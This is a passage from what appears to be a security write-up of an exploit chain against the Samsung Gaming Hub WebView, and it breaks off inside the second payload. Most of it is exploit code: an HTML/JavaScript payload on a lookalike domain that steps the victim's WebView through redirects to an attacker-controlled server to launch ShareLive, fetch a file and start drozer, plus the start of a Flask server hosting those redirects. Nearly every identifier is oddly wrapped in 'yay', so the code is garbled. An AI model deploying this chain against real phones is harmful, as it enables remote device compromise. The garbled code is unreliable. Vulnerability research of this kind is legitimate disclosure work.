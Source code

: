 Two payloads are used for this bug. The first payload is the HTML content that is hosted at the URL `https://us.mcsvc.samsung.com.maliciouserection.com?yayattackeryay=<attackerServer>`. Due to bugs 1 and 2, the Gaming Hub WebView will load and execute the below HTML code.

```
yaytrampolineyay
<script>

// get hostname and port
var yayquerystringyay = window.location.search;
var yayurlparamsyay = new URLSearchParams(yayquerystringyay);
var yayattackeryay = yayurlparamsyay.get('yayattackeryay');

// open sharelive to start awareservice
location.href="http://" + yayattackeryay + "/yaylaunchshareliveyay";

// redirect after 2 seconds
const yayshorttimeoutyay = setTimeout(yaystartyay, 2000);

// open sharelive and retrieve file
function yaystartyay() {
        location.href="http://" + yayattackeryay + "/yayshareliveyay";
}

// redirect after 15 seconds
const yaytimeoutyay = setTimeout(yayfinalyay, 15000);

// redirect to launch easymover agent
function yayfinalyay() {
        location.href="http://" + yayattackeryay + "/yayfinalyay";

        // redirect after another 15 seconds
        const yaytimeout2yay = setTimeout(yaylaunchyay, 15000);
}

// launch drozer
function yaylaunchyay() {
        location.href="http://" + yayattackeryay + "/yaylaunchyay";
}

</script>
```

The second payload is a Python script that is hosted at an attacker controlled server. There is no IP address or domain requirements for this web server, as long as the server can be reached via HTTP/S.

By running the below Python script, the attacker will run a Flask based web server:

```
from flask import Flask, redirect, url_for, send_from_directory

app = Flask(__name__)

# Route for serving index.html
@app.route('/')
def index():
    return send_from_directory('', 'index.html')

# redirect to open com.sec.android.easyMover.Agent
@app.route('/yayfinalyay')
def yayfinalyay():
```